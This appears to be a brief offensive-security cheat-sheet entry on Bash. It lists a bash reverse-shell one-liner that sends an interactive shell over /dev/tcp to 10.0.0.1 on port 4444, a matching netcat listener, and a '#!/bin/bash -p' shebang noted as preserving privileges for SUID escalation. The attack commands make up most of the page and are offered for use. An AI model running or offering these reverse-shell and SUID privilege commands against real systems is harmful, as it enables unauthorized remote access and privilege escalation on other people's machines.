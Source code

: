 ```yaml
---
title: Bash
desc: Executes shell commands and scripts. It also used to Reverse Shell, etc.
tags: [Linux, PrivEsc, ReverseShell, SUID]
alts: []
website:
---
```


## Reverse Shell TCP

```sh
# TCP (ex. port: 4444)
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1

-------------------------------------------

# Listen
nc -lvnp 4444
```

<br />

## Create Bash script

```sh
#!/bin/bash -p (-p: privilege mode. It's used for SUID)

echo 'Hello World'
```